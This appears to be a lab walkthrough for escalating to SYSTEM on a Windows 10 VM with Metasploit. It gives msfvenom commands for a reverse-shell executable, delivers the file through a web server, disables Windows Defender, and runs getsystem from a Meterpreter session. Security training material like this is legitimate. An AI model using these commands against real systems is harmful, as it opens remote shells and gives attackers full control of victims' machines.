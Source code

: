 # Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

## Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

## Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

## Solutions 
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: 

![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)


